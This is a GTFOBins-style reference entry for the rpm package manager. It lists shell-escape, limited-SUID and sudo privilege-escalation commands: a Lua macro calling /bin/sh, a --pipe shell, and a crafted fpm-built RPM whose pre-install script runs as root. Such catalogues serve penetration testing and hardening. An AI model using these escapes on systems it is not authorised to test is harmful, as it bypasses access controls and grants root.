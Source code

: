 functions:
  shell:
    - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
    - code: rpm --pipe '/bin/sh 0<&1'
  limited-suid:
    - code: ./rpm --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo rpm -ivh x-1.0-1.noarch.rpm
---
